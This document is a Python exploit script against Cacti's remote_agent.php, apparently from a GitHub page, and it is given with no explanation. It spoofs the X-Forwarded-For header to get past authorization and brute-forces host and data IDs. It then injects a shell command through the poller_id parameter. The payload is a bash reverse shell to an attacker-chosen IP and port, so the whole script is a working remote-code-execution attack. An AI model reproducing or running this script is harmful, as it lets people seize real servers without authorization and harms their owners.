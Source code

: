 ```python
import requests
import urllib.parse

def checkVuln():
    result = requests.get(vulnURL, headers=header)
    return (result.text != "FATAL: You are not authorized to use this service" and result.status_code == 200)

def bruteForce():
    # brute force to find host id and local data id
    for i in range(1, 5):
        for j in range(1, 10):
            vulnIdURL = f"{vulnURL}?action=polldata&poller_id=1&host_id={i}&local_data_ids[]={j}"
            result = requests.get(vulnIdURL, headers=header)
    
            if result.text != "[]":
                # print(result.text)
                rrdName = result.json()[0]["rrd_name"]
                if rrdName == "polling_time" or rrdName == "uptime":
                    return True, i, j

    return False, -1, -1


def remoteCodeExecution(payload, idHost, idLocal):
    encodedPayload = urllib.parse.quote(payload)
    injectedURL = f"{vulnURL}?action=polldata&poller_id=;{encodedPayload}&host_id={idHost}&local_data_ids[]={idLocal}"
    
    result = requests.get(injectedURL,headers=header)
    print(result.text)

if __name__ == "__main__":
    targetURL = input("Enter the target address (like 'http://123.123.123.123:8080')")
    vulnURL = f"{targetURL}/remote_agent.php"
    # X-Forwarded-For value should be something in the database of Cacti
    header = {"X-Forwarded-For": "127.0.0.1"}
    print("Checking vulnerability...")
    if checkVuln():
        print("App is vulnerable")
        isVuln, idHost, idLocal = bruteForce()
        print("Brute forcing id...")
        # RCE payload
        ipAddress = "192.168.1.15"
        ipAddress = input("Enter your IPv4 address")
        port = input("Enter the port you want to listen on")
        payload = f"bash -c 'bash -i >& /dev/tcp/{ipAddress}/{port} 0>&1'"
        if isVuln:
            print("Delivering payload...")
            remoteCodeExecution(payload, idHost, idLocal)
        else:
            print("RRD not found")
    else:
        print("Not vulnerable")
```
